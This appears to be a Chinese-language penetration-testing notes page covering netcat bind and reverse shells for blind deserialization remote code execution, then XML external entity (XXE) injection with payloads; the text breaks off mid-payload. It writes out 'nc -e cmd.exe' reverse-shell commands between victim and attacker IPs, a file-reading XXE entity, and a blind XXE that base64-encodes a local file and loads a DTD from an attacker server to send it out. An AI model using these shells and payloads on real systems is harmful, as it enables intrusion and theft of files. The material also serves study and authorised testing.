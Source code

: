 

如果一台服务器有反序列化远程命令执行漏洞，在服务器执行命令后看不到回显？

构造反弹shell

###### NC 反弹 shell

攻击场景：

```
　　Victim IP：  192.168.2.10
　　Attacker IP：192.168.2.11
```

###### 正向 Shell

我们想要弹回Victim的Shell，使用如下命令：

Victim：nc -lvp 9999 -e cmd.exe

Attacker：nc 192.168.2.10 9999

ps：先在肉鸡上开一个cmd服务，然后在攻击机上进行连接

###### 反向 Shell

Attacker：nc -vlp 9999

Victim：nc 192.168.2.11 9999 -e cmd.exe

ps：先在攻击机上进行监听，然后在肉鸡上给Attacker开一个cmd

Link: https://qftm.github.io/2019/08/03/Windows-Reverse-Shell/
本文章著作权归作者所有，任何形式的转载都请注明出处。



XXE-xml外部实体注入漏洞

XML被设计为传输和存储数据，XML文档结构包括XML声明、DTD文档类型定义（可选）、文档元素，其焦点是数据的内容，其把数据从HTML分离，是独立于软件和硬件的信息传输工具。XXE漏洞全称XMLExternal Entity Injection,即xml外部实体注入漏洞，XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件，造成文件读取、命令执行、内网端口扫描、攻击内网网站等危害。

html旨在显示信息，而xml旨在传输信息

<?xml version = "1.0"?>

<!DOCTYPE ANY[
<!ENTITY xxe SYSTEM "file:///c://1.txt">
]>
<x>&xxe; i am hacker！</x>


回显：flag1231213132 i am hacker！



XXE注入分有回显和无回显，若无回显，思路是在xml中定义一个变量a接收服务器本地文件，然后访问外部攻击者的服务器把变量a的数据提交上来

无回显一读取文件
<?xml version="1.0"?>

<!DOCTYPE test
#定义file变量=d:/test.txt里的内容(base64加密后)
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/test.txt">
#加载外部攻击者服务器写的xml
<!ENTITY % dtd SYSTEM "http://192.168.0.103:8081/test.dtd">
#运行dtd
%dtd;
#send变量藏在加载的外部xml中
%send
]>
#外部xml
test.dtd:
<!ENTITY % payload
#&#x25;表示%